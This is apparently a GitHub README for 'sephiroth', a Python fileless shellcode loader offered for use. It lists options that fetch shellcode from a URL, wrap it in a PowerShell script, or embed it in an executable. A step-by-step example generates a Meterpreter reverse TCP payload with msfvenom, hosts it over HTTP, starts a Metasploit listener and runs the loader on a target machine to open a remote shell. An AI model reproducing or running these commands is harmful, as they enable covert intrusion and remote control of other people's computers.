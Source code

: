 ![Alt text](<2024-02-20 07_45_57-C__Windows_System32_cmd.exe.png>)

Greetings
-------------------

sephiroth  is a Fileless Shellcode Loader with Python :


Usage: python Sephiros.py -url 'urlforshellcode'

u can generate a ps1 script with -ps instead of building into exe

python Sephiros.py -url 'urlforshellcode' -ps

you can also just embed shellcode into the PE directly using -sh 'pathofshellcode'


python Sephiros.py -sh 'pathto_shellcode'

setup
---------

pip install -r requirements.txt

python Sephiroth.py

fileless executing example:
-------------------
generate shellcode with:

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=5555 -f raw  -o shellcode

python3 -m http.server 80


then:

python Sephiroth.py -url http://yourip/shellcode

start metasploit listener

execute PE on target machine

todo
--------
asymetric encryption to the shellcode
